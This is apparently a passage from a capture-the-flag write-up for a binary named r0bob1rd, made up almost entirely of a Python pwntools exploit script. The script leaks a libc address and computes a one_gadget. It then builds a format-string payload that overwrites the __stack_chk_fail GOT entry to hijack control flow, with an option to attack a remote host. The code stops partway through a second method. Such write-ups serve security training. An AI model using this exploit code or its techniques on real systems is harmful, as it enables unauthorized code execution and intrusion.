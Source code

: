## Full exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

# context.log_level = 'debug'
exe = context.binary = ELF('./r0bob1rd_patched', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*operation+297
        b*main+72
        c
        '''.format(**locals()), *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

p = start()

# ==================== EXPLOIT ====================

def method1():
    sla(b'> ', b'-16')

    ru(b'chosen: ')
    puts = u64(rl()[:-1] + b'\0\0')
    libc.address = puts - 0x84420
    one_gadget = libc.address + 0xe3b01
    slog('Puts',puts)
    slog('Libc base', libc.address)
    slog('One gadget', one_gadget)

    offset = 8
    write = {
        exe.got["__stack_chk_fail"]: one_gadget
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b'.')
    sa(b'> ',payload)

def method2():

    offset = 8
    write = {
        exe.got["__stack_chk_fail"]: exe.sym["operation"]
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b".")
    sla(b">", b"10")
    sa(b">", payload)

    payload = f"hehe|%22$p|%45$p|".encode()
    payload = payload.ljust(106, b".")

```